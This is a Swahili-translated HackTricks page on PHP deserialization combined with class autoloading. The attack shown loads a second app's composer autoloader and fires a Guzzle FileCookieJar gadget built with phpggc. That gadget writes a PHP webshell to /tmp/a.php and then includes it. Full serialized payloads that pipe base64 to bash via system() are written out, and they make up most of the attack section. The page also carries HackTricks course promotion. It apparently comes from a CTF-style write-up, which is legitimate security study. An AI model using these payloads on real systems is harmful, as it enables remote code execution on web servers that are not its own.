 # PHP - Deserialization + Autoload Classes

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Kwanza, unapaswa kuangalia ni nini [**Autoloading Classes**](https://www.php.net/manual/en/language.oop5.autoload.php).

## PHP deserialization + spl\_autoload\_register + LFI/Gadget

Tuko katika hali ambapo tumepata **PHP deserialization katika webapp** bila **maktaba** inayoweza kuathiriwa na gadgets ndani ya **`phpggc`**. Hata hivyo, katika kontena hiyo hiyo kulikuwa na **webapp tofauti ya composer yenye maktaba zinazoweza kuathiriwa**. Kwa hivyo, lengo lilikuwa **kuchukua loader ya composer ya webapp nyingine** na kuitumia **kuchukua gadget ambayo itatumia maktaba hiyo kwa gadget** kutoka kwa webapp inayoweza kuathiriwa na deserialization.

Hatua:

* Umepata **deserialization** na **hakuna gadget** katika msimbo wa sasa wa programu
* Unaweza kutumia **`spl_autoload_register`** kama ifuatavyo ili **kuchukua faili yoyote ya ndani yenye kiambishi cha `.php`**
* Kwa hiyo unatumia deserialization ambapo jina la darasa litakuwa ndani ya **`$name`**. Huwezi kutumia "/" au "." katika jina la darasa katika kitu kilichosajiliwa, lakini **msimbo** unabadilisha **michoro** ("\_") **kuwa slashes** ("/"). Hivyo jina la darasa kama `tmp_passwd` litabadilishwa kuwa `/tmp/passwd.php` na msimbo utajaribu kulichukua.\
Mfano wa **gadget** utakuwa: **`O:10:"tmp_passwd":0:{}`**
```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```
{% hint style="success" %}
Ikiwa una **kupakia faili** na unaweza kupakia faili yenye **`.php extension`** unaweza **kutumia kazi hii moja kwa moja** na kupata tayari RCE.
{% endhint %}

Katika kesi yangu, sikuwa na chochote kama hicho, lakini kulikuwa ndani ya **konteina hiyo hiyo** ukurasa mwingine wa mtandao wa composer wenye **maktaba iliyo hatarini kwa `phpggc` gadget**.

* Ili kupakia maktaba hii nyingine, kwanza unahitaji **kupakia loader ya composer ya programu hiyo nyingine** (kwa sababu ya ile ya programu ya sasa haitafikia maktaba za nyingine.) **Kujua njia ya programu**, unaweza kufanikisha hii kwa urahisi sana na: **`O:28:"www_frontend_vendor_autoload":0:{}`** (Katika kesi yangu, loader ya composer ilikuwa katika `/www/frontend/vendor/autoload.php`)
* Sasa, unaweza **kupakia** loader ya **maktaba nyingine ya app**, hivyo ni wakati wa **`kuunda phpgcc`** **payload** ya kutumia. Katika kesi yangu, nilitumia **`Guzzle/FW1`**, ambayo iliniruhusu **kuandika faili yoyote ndani ya mfumo wa faili**.
* KUMBUKA: **gadget iliyoundwa haikufanya kazi**, ili ifanye kazi nilifanya **mabadiliko** kwenye payload hiyo **`chain.php`** ya phpggc na kuweka **sifa zote** za madarasa **kutoka binafsi hadi umma**. La sivyo, baada ya deserialization ya string, sifa za vitu vilivyoundwa hazikuwa na thamani yoyote.
* Sasa tuna njia ya **kupakia loader ya maktaba nyingine ya app** na kuwa na **phpggc payload inayofanya kazi**, lakini tunahitaji **kufanya hivi katika OMBI MOJA ili loader ipakuliwe wakati gadget inatumika**. Kwa hiyo, nilituma array iliyosawazishwa yenye vitu vyote viwili kama:
* Unaweza kuona **kwanza loader ikipakuliwa na kisha payload**

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* Sasa, tunaweza **kuunda na kuandika faili**, hata hivyo, mtumiaji **hakuweza kuandika katika folda yoyote ndani ya seva ya wavuti**. Hivyo, kama unavyoona katika payload, PHP inaita **`system`** na **base64** fulani inaundwa katika **`/tmp/a.php`**. Kisha, tunaweza **kurudia aina ya kwanza ya payload** ambayo tulitumia kama LFI ili kupakia mzigo wa composer wa programu nyingine ya wavuti **kupakia faili iliyoundwa `/tmp/a.php`**. Ongeza tu kwenye gadget ya deserialization:&#x20;

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**Muhtasari wa payload**

* **Pakia autoload ya composer** ya webapp tofauti katika kontena moja
* **Pakia gadget ya phpggc** ili kutumia maktaba kutoka kwa webapp nyingine (webapp ya awali iliyoathirika na deserialization haina gadget kwenye maktaba zake)
* Gadget itaunda **faili yenye payload ya PHP** ndani yake katika /tmp/a.php yenye amri za uhalifu (mtumiaji wa webapp hawezi kuandika katika folda yoyote ya webapp yoyote)
* Sehemu ya mwisho ya payload yetu itatumia **pakiwa faili ya php iliyoundwa** ambayo itatekeleza amri

Nilihitaji **kuita hii deserialization mara mbili**. Katika majaribio yangu, mara ya kwanza faili ya `/tmp/a.php` iliumbwa lakini haikupakiwa, na mara ya pili ilipakiwa ipasavyo.

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za uhalifu kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
